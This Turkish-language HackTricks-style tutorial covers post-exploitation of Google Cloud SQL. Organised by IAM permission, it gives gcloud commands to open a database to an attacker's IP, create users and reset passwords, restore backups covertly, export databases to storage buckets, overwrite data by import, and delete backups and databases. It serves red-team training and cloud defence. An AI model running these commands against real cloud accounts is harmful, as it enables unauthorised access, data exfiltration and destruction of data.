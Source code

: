 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Veritabanlarına bağlanmak için **sadece veritabanı portuna erişim** ve **kullanıcı adı** ile **şifreyi** bilmeniz yeterlidir, herhangi bir IAM gereksinimi yoktur. Bu nedenle, veritabanının bir genel IP adresine sahip olduğunu varsayarsak, erişim sağlamak için kolay bir yol, izin verilen ağları güncelleyip **kendi IP adresinizi erişime açmaktır**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Ayrıca, veritabanının **yedeklerini kesmek** için **`--no-backup`** kullanmak da mümkündür.

Bu gereksinimler olduğundan, **`cloudsql.instances.connect`** ve **`cloudsql.instances.login`** izinlerinin ne için olduğunu tam olarak bilmiyorum. Eğer biliyorsanız bir PR gönderin!

### `cloudsql.users.list`

Veritabanının **tüm kullanıcılarının listesini** alın:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Bu izin, **veritabanında yeni bir kullanıcı oluşturmayı** sağlar:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Bu izin, veritabanı içindeki **kullanıcıyı güncellemeye** olanak tanır. Örneğin, şifresini değiştirebilirsiniz:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Yedekler **eski hassas bilgileri** içerebilir, bu yüzden bunları kontrol etmek ilginçtir.\
Bir veritabanında **bir yedeği geri yükleyin**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Daha gizli bir şekilde yapmak için, mevcut çalışan veritabanlarında değil, verileri orada kurtarmak için yeni bir SQL örneği oluşturulması önerilir.

### `cloudsql.backupRuns.delete`

Bu izin, yedekleri silmeye olanak tanır:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Bir veritabanını** Cloud Storage Bucket'a aktarın, böylece oradan erişebilirsiniz:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Bir veritabanını içe aktar** (üzerine yaz) bir Cloud Storage Bucket'tan:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Bir veritabanını db örneğinden sil:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
